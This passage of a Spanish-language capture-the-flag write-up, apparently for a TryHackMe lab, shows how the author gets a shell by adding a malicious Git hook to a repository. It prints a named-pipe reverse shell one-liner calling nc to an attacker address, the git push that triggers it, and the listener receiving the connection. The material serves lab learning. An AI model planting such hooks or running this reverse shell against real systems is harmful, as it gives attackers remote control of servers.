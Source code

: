 ## Flag 2

Dado que este usuario puede agregar `Git Hooks` a los repositorios, creé uno nuevo y usé un exploit similar a este, para una vieja máquina THM, llamada [Git And Crumpets](https://lanfran02.github.io/es/posts/gitandcrumpets/).

Aquí está el exploit que usamos:
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.9.6.53 1337 >/tmp/f
```
![expl](expl.png)

```bash
[Terminal 1]

╰─ lanfran@parrot ❯ touch crackme.md && git init && git add crackme.md && git commit -m "Exploiting" && git remote add origin http://10.10.24.160:31111/leeroy/vuln.git && git push -u origin master
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint: 
hint: 	git config --global init.defaultBranch <name>
hint: 
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint: 
hint: 	git branch -m <name>
Initialized empty Git repository in /[...]/exploiting_git/.git/
[master (root-commit) b8dd8d4] Exploiting
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 crackme.md
Username for 'http://10.10.24.160:31111': leeroy
Password for 'http://leeroy@10.10.24.160:31111': 
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 214 bytes | 214.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0

----------------

[Terminal 2]

╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.6.53] from (UNKNOWN) [10.10.24.160] 37783
```